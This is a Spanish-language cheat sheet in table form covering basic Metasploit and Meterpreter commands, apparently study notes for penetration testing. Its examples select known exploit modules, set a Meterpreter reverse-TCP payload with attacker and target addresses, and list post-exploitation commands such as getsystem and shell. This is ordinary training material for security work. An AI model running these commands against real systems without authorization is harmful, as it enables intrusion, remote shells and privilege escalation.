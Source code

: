 # Metasploit - Comandos básicos

### <mark style="color:yellow;">Tabla de comandos básicos de Metasploit</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th><th></th></tr></thead><tbody><tr><td><strong>Comando</strong></td><td><strong>Uso</strong></td><td><strong>Ejemplo</strong></td></tr><tr><td><code>use [auxiliary/exploit/payload/encoder/evasion]</code></td><td>Seleccionar un módulo específico</td><td><code>msf> use exploit/unix/ftp/vsftpd_234_backdoor</code></td></tr><tr><td><code>show [exploits/payloads/options/etc.]</code></td><td>Ver lista de módulos disponibles</td><td><code>msf> show payloads</code><br><code>msf> show options</code></td></tr><tr><td><code>set [opción/payload]</code></td><td>Asignar valor a un parámetro específico</td><td><code>msf> set payload windows/meterpreter/reverse_tcp</code><br><code>msf> set LHOST 192.168.10.118</code><br><code>msf> set RHOST 192.168.10.112</code></td></tr><tr><td><code>setg [opción/payload]</code></td><td>Asignar valor global a un parámetro</td><td><code>msf> setg RHOST 192.168.10.112</code></td></tr><tr><td><code>run</code></td><td>Ejecutar un módulo auxiliar</td><td><code>msf> run</code></td></tr><tr><td><code>exploit</code></td><td>Ejecutar un exploit</td><td><code>msf> exploit</code></td></tr><tr><td><code>back</code></td><td>Salir del módulo actual y volver</td><td><code>msf(ms08_067_netapi)> back</code></td></tr><tr><td><code>info</code></td><td>Ver información detallada de un módulo</td><td><code>msf> info exploit/windows/smb/ms08_067_netapi</code></td></tr><tr><td><code>search</code></td><td>Buscar un módulo específico</td><td><code>msf> search hfs</code></td></tr><tr><td><code>check</code></td><td>Verificar si el objetivo es vulnerable</td><td><code>msf> check</code></td></tr><tr><td><code>sessions</code></td><td>Listar sesiones activas</td><td><code>msf> sessions [número]</code></td></tr></tbody></table>

### <mark style="color:yellow;">Comandos básicos de Meterpreter(se verá más adelante)</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th><th></th></tr></thead><tbody><tr><td><strong>Comando</strong></td><td><strong>Uso</strong></td><td><strong>Ejemplo</strong></td></tr><tr><td><code>sysinfo</code></td><td>Obtener información del sistema comprometido</td><td><code>meterpreter> sysinfo</code></td></tr><tr><td><code>ifconfig</code> / <code>ipconfig</code></td><td>Listar interfaces de red</td><td><code>meterpreter> ifconfig</code></td></tr><tr><td><code>arp</code></td><td>Ver IPs y MACs conectadas al objetivo</td><td><code>meterpreter> arp</code></td></tr><tr><td><code>background</code></td><td>Enviar sesión activa a segundo plano</td><td><code>meterpreter> background</code></td></tr><tr><td><code>shell</code></td><td>Abrir shell de comandos</td><td><code>meterpreter> shell</code></td></tr><tr><td><code>getuid</code></td><td>Obtener nombre de usuario actual</td><td><code>meterpreter> getuid</code></td></tr><tr><td><code>getsystem</code></td><td>Escalar privilegios a SYSTEM</td><td><code>meterpreter> getsystem</code></td></tr><tr><td><code>getpid</code></td><td>Obtener el PID del proceso de Meterpreter</td><td><code>meterpreter> getpid</code></td></tr><tr><td><code>ps</code></td><td>Listar todos los procesos activos</td><td><code>meterpreter> ps</code></td></tr></tbody></table>
